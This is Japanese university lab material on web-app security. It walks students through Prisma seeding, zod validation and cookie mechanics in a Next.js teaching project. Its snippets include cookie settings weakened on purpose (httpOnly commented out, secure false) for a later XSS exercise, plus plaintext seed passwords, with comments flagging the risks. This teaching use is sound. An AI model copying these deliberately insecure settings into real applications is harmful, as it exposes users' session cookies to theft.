1 準備
このテキストは、知能情報実験実習2 (前期) の「A班」の第5週目・05月15日 (金) の内容に関するものです。
こちら
のリポジトリのプロジェクト web-sec-playground-2
を利用して、今週と来週で「ウェブアプリのセキュリティ」について体験的・実践的に学んでいきます。
具体的には、次のような内容について学びます (次週に扱う内容も含んでいます) 。
- Cookie (クッキー)
- Prisma/DBの初期データ投入 (シーディング処理)
- zod (バリデーションライブラリ)
- XSS (クロスサイトスクリプティング) 攻撃
- SWR (データ取得のための React Hooks ライブラリ)
- パスワードのハッシュ化
- セッションベース認証
- トークンベース認証 (JWT)
- Content Security Policy (CSP)
- Next.js Server Actions (Custom Invocation)
昨年度の プログラミング3 では Supabase が提供する「ユーザ認証機能」を利用してウェブアプリを開発しましたが、ここではセキュリティ (認証・認可) に対する理解を深めるために ゼロからユーザ認証機能を実装 していきます。
1.1 演習 30分
リポジトリ
をクローンして README.md に示す手順でプロジェクトをセットアップしてください。
そして、実際にアプリの起動と操作、プログラムの読解を通じてウェブアプリの「全体概要」を把握 (＝フォルダ構成やプログラムの内容をざっくりと把握) してください。
Claude Code や Codex にコードベース全体を読み込ませ、説明や要約を受けながら理解を進める方法もあります。ただし、AI の説明をそのまま受け入れるのではなく、実際のコードと照らし合わせながら確認してください。
機能等の詳細な解説については、このあとで行ないますが、まずは自分自身で理解に努め、疑問点や不明点を整理して明確化しておくこと が効果的な学びにつながります。実際の開発においても「自分でコードを書くこと」よりも 「他人や AI が書いたコードを読解・評価すること」 のほうが圧倒的に多いです。
(プロンプト例)
実際のソフトウェア開発では、自分でコードを書くこと (＝コーディング) よりも、他人や AI が書いたコードを読解・評価すること (＝コードリーディング) のほうが圧倒的に多い、と聞きました。本当ですか？
基本的には、昨年度の プログラミング3 で学んだことが、ある程度定着していれば概ね理解できる内容となっています。
以下の順序でプログラムや機能を理解・把握していくことを推奨します。ただし、あくまで目安であり、実際には 各ファイルを何度も往復しながら全体像を掴んでいく必要 があります。また、以下に示されている以外のファイルも必要に応じて参照 する必要があります。
- データベース関連
prisma/schema.prismaprisma/seed.ts
- ニュース 👉
http://localhost:3000/newssrc/app/news/page.tsxsrc/app/api/news/route.tssrc/app/_types/ApiResponse.ts
- ショップ 👉
http://localhost:3000/shopsrc/app/shop/page.tsxsrc/app/_types/Product.tssrc/app/api/products/route.tssrc/app/_types/CartItem.tssrc/app/api/cart/route.ts
- ログイン 👉
http://localhost:3000/login- 主に次週に扱う内容なので余裕があれば…
- サインアップ 👉
http://localhost:3000/signup- 主に次週に扱う内容なので余裕があれば…
なお、機能や設定の確認・把握のためにプログラムや設定ファイルを書き換える場合は、必ず新しいブランチを作成し、そのブランチ上で編集してください。main
ブランチを変更すると、以降の説明 (特に行番号)
と一致しなくなる可能性があるため、main
ブランチには手を加えないようにしてください。
▼ ブランチの新規作成と切り替え ▼
git checkout -b sandbox
git commit --allow-empty -m "Start sandbox branch"なお、ブランチは GitHub入門 (5I の S.A さんが作成) で非常に分かりやすく＆丁寧に解説されています。
また npx prisma studio で「Prisma Studio」を起動し、DB
の内容についても簡単に把握しておいてください。
ブランチの切り替え
演習が終わったあとは、以下の手順で main ブランチに戻っておいてください。
git commit -m "Finish sandbox branch"
git checkout main # mainブランチに戻る
git branch -D sandbox # sandboxブランチの削除（必要に応じて）main がチェックアウトされていること (アクティブなブランチになっていること)
を確認してください。

なお、ファイルを保存・コミットせずに main
ブランチに切り替えると、作業中の変更がそのまま
mainブランチに持ち越されることがあるので注意してください。
また、DBの内容についても、以下のコマンドで初期状態に戻しておいてください。
npx prisma db seed2 データベースについて
このプロジェクトでは、データベースとして SQLite を使用します。既に
npx prisma db seed
というコマンドを使って、データベースのレコードをクリアした上で、定義済みの初期データを投入
できるようにしています。このような処理は、一般に シーディング (Seeding)
やシード処理、初期データ投入と呼ばれます。
なお、ここで使用する npx prisma db seed は Prisma CLI
が提供しているコマンドですが、実際に実行されるシード処理の中身は、開発者が設定ファイルで指定します。
npx prisma db pushnpx prisma generate
のようなコマンドは、それ自体の処理内容が Prisma によって定義されています。一方で
npx prisma db seed は、以下で解説するように 開発者が自分で用意したスクリプトを、Prisma
のシード処理として実行するための入口 となっています。
プロンプト例
npx と npm というコマンドの違いがわかりません。解説してください。
2.1 作業準備
ここからは week-5
というブランチを新規作成して、そこで作業を行なってください。
git checkout main # mainブランチであることを確認
git checkout -b week-5 # week-5ブランチを作成・切替
git commit --allow-empty -m "Start week-5 branch"2.2 prisma.config.ts の変更 (スクリプトの追加)
プロジェクトフォルダのルートにある prisma.config.ts に、以下の
第10行目 のような設定を追加します。このファイルは Prisma
全体の挙動を制御する設定ファイル となります。
クローンしてきたプロジェクトでは 既に設定を追加済みなので、ここでは確認だけしてください。
import "dotenv/config";
import { defineConfig, env } from "prisma/config";
export default defineConfig({
schema: "prisma/schema.prisma",
migrations: {
path: "prisma/migrations",
seed: "tsx prisma/seed.ts", // 追記
},
datasource: {
url: env("DATABASE_URL"),
},
});上記のスクリプトを加えることで、VSCode のターミナル (Ctrl+J で起動) から
npx prisma db seed というコマンドを実行したときに prisma/seed.ts が
単体で実行 されるようになります。
プロンプト例
Next.js 16 / Prisma (v7) / TypeScript でウェブアプリ開発をしています。いま
prisma.config.tsに以下の内容を追加するように指示されました。このようなスクリプトを設定する目的と、実行したときの動作について解説してください。migrations: { path: "prisma/migrations", seed: "tsx prisma/seed.ts", // 追記 },
2.3 seed.ts の作成
データベースの「レコードのクリア処理」と「初期データの挿入処理」を
prisma/seed.ts
というファイルに記述しています。次の「演習」とあわせてファイルについて読解をしてください。
データベースのシーディング処理を実行する seed.ts
を配置する場所には十分に注意してください。このファイルを src
フォルダ内に置いてしまうとnpm run dev や npm run build
を実行したときに、seed.ts
もビルド対象として処理されてしまう可能性 があります。
そして、プロダクトのなかに「データベースの初期化処理」が含まれることは、セキュリティ上の重大なリスク となるので十分に注意してください。
2.4 📝演習
prisma/seed.tsを編集して、newsItem、products、userについて「初期データ」をいくつか追加してみてください。prisma/seed.tsを編集した後はnpx prisma db seed、npx prisma studioを実行し、DB に反映されていること を確認してください。
3 zod を利用した「バリデーション」と「型定義」について
シーディング処理に使用する seed.ts や、それに関連する型定義ファイル
(UserSeed.ts など) では、zod (ゾッド) という
バリデーションライブラリ を積極的に使って 入力データの整合性を厳密に検証する設計 で実装されています。
- zodとは @ Google 検索
zod は、TypeScript において「入力データのバリデーション（検証ルール）」と「型定義」を統一的に記述できるライブラリとなっています。
TypeScript には、変数やオブジェクトに対して「number 型」や「string 型」といった型を定義する機能があります。しかし、TypeScript の型情報は実行時には消えてしまうため、API やフォームから受け取ったデータが本当に期待どおりの形であるかは、実行時に改めて確認する必要があります。また、型定義だけでは、「0以上100以下の整数値」や「5文字以上20文字以下の文字列」 といった、具体的な制約条件までは表現できません。そのため、こうした条件を満たしているかどうかを確認する バリデーションロジック (入力値検証処理) を別途実装する必要があります。
ウェブアプリにおけるバリデーション処理 (入力値検証処理) の重要性
ウェブアプリケーションでは、ユーザ入力や外部システムから受け取るデータを、そのまま信用して扱ってはいけません。特に、フォーム入力データや HTTP リクエストのボディデータ (API 経由で受け取るデータ) には、不正な形式の値や想定外の値、悪意あるデータが含まれている可能性があります。
このようなデータを安全に扱うためには、アプリケーション側で適切なバリデーション処理を行うことが重要です。
このバリデーション処理は自分で実装することも可能ですが、zod を使うことで簡潔かつ分かりやすく記述できます。
さらに zod では、スキーマ (＝ 入力データが満たすべき構造や制約条件を定義したもの) から、自動的に TypeScript の型定義 を生成できます。
import { z } from "zod"; // zodライブラリのインポート
// バリデーションスキーマ（データが満たすべき制約条件や構造を定義）
export const cartItemSchema = z.object({
productId: z.string().min(1).max(10), // 1文字以上10文字以下の「文字列」
quantity: z.number().int().min(0), // 0以上の「整数値」
});
// バリデーションスキーマをもとに「CartItem型」を生成
export type CartItem = z.infer<typeof cartItemSchema>;上記のバリデーションスキーマをもとに、以下に相当する TypeScript の型が自動的に生成されます。
また、zod はクライアントサイド (フロントエンド) において、フォーム入力 (＝
react-hook-form の useForm) とも
連携して強力なバリデーション機能を提供してくれます。
プロンプト例
Next.js (TypeScript) でウェブアプリを開発しています。「react-hook-form」の「useForm」とは何ですか？これを使わずにフォーム入力を実装するのと、使って実装するのでは、どのような違いがありますか？具体的なシナリオを例に分かりやすく説明してください。
以下は、react-hook-form と zod を組み合わせて作成した入力フォーム
(src/app/login/page.tsx )
の例です。このプロジェクトにおいては、ログイン機能 (/login) や
サインアップ機能 (/signup) のなかで利用しています。

zod を積極活用することで「煩雑」かつ「コードの可読性を低下させる原因」となるバリデーション処理を 簡潔かつ確実に実装すること が可能になります。Next.js / React / TypeScript の実際の開発現場においてもバリデーションライブラリとして zod は、かなり使用されています。
プロンプト例
TypeScript による Next.js / React のウェブアプリの開発現場で、バリデーションライブラリとして「zodがよく使われている」って聞いたんだけどホント？
プロンプト例
Next.js / TypeScript でウェブアプリ開発をしています。データのバリデーションを実施すべきなのは、どのようなタイミングや場面ですか。クライアントサイド (フロントエンド)、サーバサイド (バックエンド) のそれぞれについて教えてください。
3.1 バリデーションスキーマの定義と型の自動生成
このプロジェクトでは、prisma/seed.ts のシーディング処理についても、zod
による型生成やバリデーションを活用しています。
まず、src/app/_types/CommonSchemas.ts のなかで UserSeed.ts
や、認証機能などに使用する型定義ファイル (LoginRequest.ts や
UserProfile.ts など) で共通利用する バリデーションスキーマ
(＝入力データが満たすべき制約条件や構造を定義したもの)
を以下のように記述しています。
import { z } from "zod";
import { Role } from "./Role";
export const passwordSchema = z.string().min(5);
export const emailSchema = z.string().email();
export const userNameSchema = z.string().min(1);
export const roleSchema = z.nativeEnum(Role);
// prettier-ignore
export const isUUID = (value: string) => /^[0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[89ab][0-9a-f]{3}-[0-9a-f]{12}$/i.test(value);
export const uuidSchema = z.string().refine(isUUID, {
message: "Invalid UUID format.",
});
// 以下略CommonSchemas.ts の 第10行目 から 第14行目
では、「正規表現」を使用してUUIDの形式 ( 16進数による
00000000-0000-0000-0000-000000000000 形式)
をチェックするカスタムバリデーションスキーマを定義しています。なお、正規表現はプログラミング1で
既に学習済み
です。
次に、UserSeed.ts において、それらのバリデーションスキーマを利用して
userSeedSchema を定義し、第16行目 では
z.infer<typeof userSeedSchema>
により「UserSeed型」を自動生成しています。
import { z } from "zod";
import {
userNameSchema,
emailSchema,
passwordSchema,
roleSchema,
aboutSlugSchema,
aboutContentSchema,
} from "./CommonSchemas";
export const userSeedSchema = z.object({
name: userNameSchema,
email: emailSchema,
password: passwordSchema,
role: roleSchema,
aboutSlug: aboutSlugSchema.optional(),
aboutContent: aboutContentSchema.optional(),
});
export type UserSeed = z.infer<typeof userSeedSchema>;なお、ここではオブジェクトの各プロパティ (name や email)
に対して独立したバリデーションスキーマを設定していますが、zod
では複数のプロパティを参照する複合的なバリデーション
(クロスフィールドバリデーション)
や、条件分岐をともなう複雑なバリデーションも可能になっています。
例えば、オブジェクトのなかの password と
confirmPassword の一致 を検証するようなバリデーションも設定可能です。
プロンプト例
バリデーションライブラリである「zod」では、オブジェクトを構成する複数のプロパティを参照した複合的なバリデーションや、条件分岐による複雑なバリデーションも可能であると聞きました。具体的にどのようなバリデーションが可能なのか、コードと解説を示してください。
3.2 データのバリデーション処理
prisma/seed.ts では、以下に示すように、
- テスト用のユーザの種となる
userSeedsを作成 (第08行目～) して、 - zod によるバリデーションで データ形式や制約条件を満たしていることを確認 (第43行目～) したうえで、
- DBにデータを投入 (第73行目から第82行目)
… しています。
const main = async () => {
console.log("Seeding database...");
// テスト用のユーザ情報の「種」となる userSeeds を作成
const userSeeds: UserSeed[] = [
{
name: "高負荷 耐子",
password: "password1111",
email: "admin01@example.com",
role: Role.ADMIN,
},
{
name: "不具合 直志",
password: "password2222",
email: "admin02@example.com",
role: Role.ADMIN,
}, // userSeedSchema を使って UserSeeds のバリデーション
try {
await Promise.all(
userSeeds.map(async (userSeed, index) => {
const result = userSeedSchema.safeParse(userSeed);
if (result.success) return;
console.error(
`Validation error in record ${index}:\n${JSON.stringify(userSeed, null, 2)}`,
);
console.error("▲▲▲ Validation errors ▲▲▲");
console.error(
JSON.stringify(result.error.flatten().fieldErrors, null, 2),
);
throw new Error(`Validation failed at record ${index}`);
}),
);
} catch (error) {
throw error;
}// ユーザ（user）テーブルにテストデータを挿入
await prisma.user.createMany({
data: userSeeds.map((userSeed) => ({
id: uuid(),
name: userSeed.name,
password: userSeed.password,
role: userSeed.role,
email: userSeed.email,
})),
});なお、この例では safeParse
によってデータが妥当であることを確認したうえで、元の userSeeds
から必要なプロパティを取り出して DB に投入しています。zod
のスキーマで値の変換やデフォルト値の補完、余分なプロパティの除去などを行う設計にする場合は、検証後の
result.data を使って DB に投入するほうが安全です。
また、この段階では学習用の初期データとして平文のパスワードを扱っています。実運用の認証システムでは、パスワードをそのまま DB に保存してはいけません。次回で扱うように、必ずハッシュ化した値を保存します。
ここで、例えば 第16行目 の…
email: "admin01@example.com",
…を…
email: "hoge-fuga-piyo",
…のように 電子メールとして不正な値 に書き変えて
npx prisma db seed
を実行すると、以下のように例外が発生してシーディング処理が中断されます
(＝不正な値が DB に投入されることを未然に防いでくれます)。
Validation error in record 0:
{
"name": "高負荷 耐子",
"password": "password1111",
"email": "hoge-fuga-piyo",
"role": "ADMIN"
}
▲▲▲ Validation errors ▲▲▲
{
"email": [
"Invalid email"
]
}なお、第44行目からは、例外処理に加えて Promise.all
を利用した並列処理をしているので、やや複雑な処理になっています。バリデーションの本体である
userSeedSchema.safeParse(userSeed)
については、次のセクションでシンプルな例を用意して解説しています。そちらを参照してください。
「hoge」「fuga」「piyo」とは
いまさらですが hoge fuga piyo は、メタ構文変数
foo bar baz の日本バージョンです。
プロンプト例
プログラミング界隈で登場する
foobarbazとは何ですか。
3.3 データのバリデーション処理 (シンプルな例)
zod によるバリデーション処理について理解するためのコードを
src/app/zod/page.tsx に配置しています。それを利用して safeParse()
の使い方について理解してください。
ウェブアプリ実行時は http://localhost:3000/zod
でアクセスできます。F12
で開発者ツールを開いて「コンソール」から検証処理（バリデーション処理）の結果について確認してください。

第28行目 において userSeedSchema.safeParse(...)
によるバリデーションを実行しています。
const result = userSeedSchema.safeParse(unsafeUserSeed);
if (!result.success) {
console.log("▼ Validation NG ▼");
console.log(JSON.stringify(result.error.flatten().fieldErrors, null, 2));
}
const userSeed = result.data ?? null;
if (userSeed) {
console.log("▼ Validation OK ▼");
console.log(JSON.stringify(userSeed, null, 2));
}3.4 演習
src/app/zod/page.tsx について、以下のことを確認してください。
- 第25行目 を以下のように変更し、
safeParseの戻り値resultがどのように変わるかを確認してください。const unsafeUserSeed = unsafeUserSeed_02; // 01 or 02👈 第25行目
unsafeUserSeed_02のように「UserSeed型」としては余分なプロパティ (age) を持ったオブジェクトをsafeParseで処理するとどのようになるのか確認してください。- バリデーションエラーになるのか否か
result.dataで取得されるオブジェクトには当該プロパティ (age) が残るか否か- 余分なプロパティがあったときの処理を設定により変更できるか否か
バリデーションでは safeParse の他に parse が利用できます。safeParse と
parse の処理の違いについて調べて理解してください。parse
のほうがシンプルで使いやすい場面も多いと思います。
プロンプト例
バリデーションライブラリ zod における
parseとsafeParseの違いについて丁寧に解説してください。また、それらのユースケース (使い分け) についても教えてください。
4 Cookie について
Cookie (クッキー🍪) とは、サーバとクライアント (ウェブブラウザ) の間で 状態 (ステート) を管理するために導入された仕組みになります。この状態管理技術は、1994年頃からウェブブラウザに導入されており、もともとは Netscape社 が開発した独自仕様でした。
まずはじめに「Cookie が必要となる理由 (＝状態管理が必要となる理由)」について確認していきます。
4.1 Cookie という仕組みが必要な理由
もともと「ウェブ」と「HTTP (Hyper Text Transfer Protocol)」は、状態管理を想定しないシンプルな ステートレス（Stateless）なシステム として設計・開発されたものでした。ステートレスとは「以前の処理内容や通信の結果を内部状態として記憶せずに、各リクエストに対しては URI (URL) のみに基づいて独立してレスポンスを返す」というアーキテクチャのことです。
つまり、サーバは特定のURI (http://hoge-shop/cart)
に対するリクエストがあったとき「誰からのリクエストであっても」「それが何度目のリクエストであっても」「それ以前に、その
URI でどのような操作をしていても」、常に同じレスポンスを返す
というのが、本来のウェブとしてステートレスな動作となります。
初期のインターネットにおいては、このステートレスなアーキテクチャで十分な機能を提供できていました。しかし、インターネットの普及とともに ステートレスな設計だけでは実現困難なシステム (例えば「オンラインショッピング」のようなウェブサービス) に対する需要が急速に高まってきました。つまり…
http://hoge-shop/cartに対して、Aさんがアクセスしたときと、Bさんがアクセスしたときで異なるレスポンスを返すようにしたい。- Aさんが以前に
http://hoge-shop/cartで操作 (例えば、商品をカートに追加する操作) をしているとき、Aさんから再度アクセスがあった際には、その操作を反映した内容のレスポンスを返すようにしたい。
…といった「ステートフル」なシステムの実現に対する需要がでてきました。
そのようななかで、HTTP のステートレスな基本特性を維持しつつ、アプリケーションレベルで ステートフルな動作 を可能にする仕組みとして考案・導入されたものが「Cookie」となります。
- 「ステートレス」の対義語が「ステートフル」となります。
プロンプト例
授業で「ウェブはステートレスなアーキテクチャである」と聞きました。意味が分かりません。そもそもアーキテクチャって何ですか？
4.2 Cookie の仕組み
Cookie の「基本的な仕組み」は、次のようになります。
- 【クライアント】: サーバ（例：
http://hoge.com/）に対して HTTP リクエスト を送信する。 - 【サーバ】: クライアントに対して
Set-Cookie: session_id=12345;のようなヘッダを含む HTTP レスポンス を返す。 - 【クライアント】: サーバからのレスポンスに
Set-Cookieがあれば、ドメイン（hoge.com）に紐付けて Cookie（session_id=12345）をブラウザに保存する。 - 【クライアント】:
以後、そのドメインに対してリクエストを送信するときは、自動的にヘッダに
Cookie: session_id=12345を付与する。 - 【サーバ】: リクエストのヘッダから Cookie (session_id=12345) を読み取り、その内容に応じて処理を分岐してレスポンスを返す。
このように Cookie🍪 は「サーバがレスポンスで Cookie を発行する」👉「クライアントがその後のリクエストに自動的にCookieを含める」という仕組みで、本来はステートレスなHTTPプロトコルにおいて「状態管理」や「ユーザ識別」を可能にしています。
4.2.1 「HTTPレスポンス」の Set-Cookie フィールド
サーバからの HTTPレスポンス のなかの Set-Cookie
フィールドは、ブラウザのデベロッパツールの「ネットワーク」のツールを使って確認することができます。以下は
http://localhost:3000/api/cart にアクセスしたときのレスポンスの観測です。

上記では cart_session_id=947012da...
につづけて、いくつかの属性情報 (Path や
Expires、Max-Age、SameSite など)
が付加されていることに着目してください。属性については、後ほど解説します。
4.2.2 「HTTPリクエスト」の Cookie フィールド
同様に HTTPリクエスト のなかの Cookie
フィールドも、以下のように確認することができます。先ほど、Set-Cookie で受け取った
cart_session_id=947012da-3995-4071-8bfe-c4afaa923756
を送信していることに着目してください。

4.3 ウェブアプリ開発者が Cookie について最低限知っておくべきこと
安全なウェブアプリを開発するにあたり、Cookie について、以下のことを把握しておいてください。
- ユーザ操作による通常のウェブナビゲーション（リンクをクリックするなど）において、Cookie は自動的にHTTPリクエストに付与されます。言い換えれば、ユーザが意識することなく自動で Cookie が送信されます。
- Cookie の内容は、ブラウザのデベロッパーツールを使って ユーザが内容を参照したり、書き換えたり、消去したりすることができます。
- Cookie は、一般に 1つの Cookie あたり約 4KB まで保持することができます（画像や長文を Cookie として保存することはできません）。なお、ドメインごとの Cookie の個数や総容量にも制限があり、その上限はブラウザによって異なります。
- Cookie は、基本的にサーバ側で発行するものですが、JavaScript を使ってクライアント側で Cookie を設定したり、読み込んだりすることもできます。ただし、後述する HttpOnly属性 が設定されている Cookie については、JavaScript から値を読み取ったり、上書きしたりすることはできません。
- JavaScript の
fetch関数などで ウェブAPI にアクセスするとき、そこに Cookie を含めることができます。- 「HttpOnly属性」がついている Cookie については、内容を参照することはできませんが HTTPリクエストの送信に含めることはできます。
プロンプト例
サードパーティクッキーとは何ですか。
プロンプト例
サードパーティクッキーを利用した「リターゲティング広告」の仕組みについて教えてください。
4.3.1 デベロッパツールからクッキーを確認 (http://localhost:3000/news)
ブラウザのデベロッパツール (F12で起動) から、ブラウザ内部に保存されている
Cookie の内容を確認することができます。

以下の「削除アイコン」をクリックすることで「ユーザ操作により Cookie
が削除できること」を確認してください。削除後、再びサイトにアクセスすると
(レスポンスの Set-Cookie により) Cookie
が再設定されることも確認してください。

また、Cookie の各フィールドをダブルクリックして「値の編集ができること」も確認してください (ユーザによって「Cookieの偽装ができること」も確認してください)。
4.3.2 Next.js のサーバサイドで Cookie を設定する例
ショップ (＝http://localhost:3000/shop) に関連する
ウェブAPI (http://localhost:3000/api/cart) の「GET
Method」では、HTTPリクエストのヘッダに Cookie フィールドが存在しないときは、Cookie
を新規発行しています。また、cart_session_id という Cookie
フィールドがあれば、その値を使って
DBから「カート情報」取得して、それをレスポンスしています (同時に Cookie
の有効期限の延長も行なっています)。
src/app/api/cart/route.ts を参照して、ざっくりと処理を追ってみてください
(詳しいことは後から確認していきます)。
cookieStore.set(cKey, id, {
path: "/",
maxAge: sessionMaxAge,
// httpOnly: true, // 💀 コメントアウトするとXSS攻撃で窃取される可能性あり
sameSite: "strict", // 💀 "none" にするとCSRF脆弱性
secure: false,
});上記の 第20行目から第24行目について、それぞれの Cookie属性 の意味を十分に理解して適切に設定しないと、重大なセキュリティリスクとなるので注意してください。ただし、ここでは後で「XSS脆弱性」に関する実験をするために、属性設定はこのままにしておいてください。
4.3.3 Next.js のクライアントサイドで Cookie を設定する例
ニュース (＝http://localhost:3000/news) では
js-cookie というライブラリを使って クライアントサイド で JavaScript プログラムを使って Cookie の「読取り」と「書込み」
をしています。サーバサイドとは異なる方法で Cookie を設定していることに注意してください。
src/app/news/page.tsx を参照して、ざっくりと処理を追ってみてください。
👆 Next.js のライブラリではないので npm i js-cookie
コマンドでインストールする必要があります (プロジェクトをクローンしてきている場合は、最初の
npm i でインストールされています)。
👆 もし region という名前のCookie が存在しない場合、regionStr は
undefined になります。
// Cookie をセットする関数の定義
const setSessionCookie = useCallback((region: Region) => {
Cookies.set("region", region, {
expires: 7, // 有効期限（7日間）
// path: "/api/news", // 💀 省略すると "/" が設定される
// sameSite: "strict", // 💀 適切に設定しないとCSRF脆弱性が生じる
secure: false, // 💀 本番環境(HTTPS)では true にすべき
});
// 👆 セキュアに利用する観点から各設定の意味を調べてみてください
}, []);各属性 expires path secure
の意味を理解して適切に設定しないと、重大なセキュリティリスクとなるので注意してください。
4.4 Cookie の属性設定
個々の Cookie には、次のような「属性」を設定することができます。
4.4.1 Expires属性
有効期限に関する設定です。期限を過ぎるとブラウザによって自動削除されます。特に設定しなければ「セッションCookie」となり、ブラウザを閉じると削除されます。
プロンプト例
セッションCookie とはなんですか。
4.4.2 HttpOnly属性
この属性が設定されている Cookie は JavaScript
から値を読み込むことができなく なります。XSS攻撃 によって
document.cookie からセッション ID
などが窃取されることを防ぐセキュリティ対策として「超重要」な設定となってきます。
ただし、HttpOnly 属性は XSS そのものを無効化する対策ではありません。攻撃者の JavaScript がページ上で実行できる状態が残っていると、Cookie の値を直接読めなくても、ユーザのブラウザから同一サイトの API にリクエストを送るなど、別の悪用が可能になる場合があります。そのため、HttpOnly は重要な防御層のひとつですが、後述するエスケープ処理・サニタイズ処理・CSP などと組み合わせて考える必要があります。
プロンプト例
